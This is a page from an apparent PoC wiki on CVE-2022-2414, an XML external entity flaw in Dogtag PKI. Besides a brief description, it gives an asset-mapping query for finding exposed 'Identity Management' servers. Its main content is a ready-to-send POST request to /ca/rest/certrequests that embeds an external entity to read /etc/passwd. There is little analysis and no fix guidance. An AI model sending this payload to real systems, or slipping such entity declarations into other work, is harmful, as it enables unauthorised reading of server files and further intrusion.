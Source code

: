 # Dogtag PKI XML entity injection vulnerability CVE-2022-2414

## Vulnerability Description

Dogtag PKI's XML parser has a security vulnerability that can cause XML external entity (XXE) attacks when accessing an external entity while analyzing an XML document. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Dogtag PKI</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="Identity Management" </span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1666109777446-b643ca9b-dea3-4ac4-8bf0-8f34f1eec640.png)

Verify POC

```java
POST /ca/rest/certrequests
Content-Type: application/xml

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<CertEnrollmentRequest>
  <Attributes/>
  <ProfileID>&ent;</ProfileID>
</CertEnrollmentRequest>
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1666110160561-329b89b1-2d6a-47a7-b026-45b0b7ef6670.png)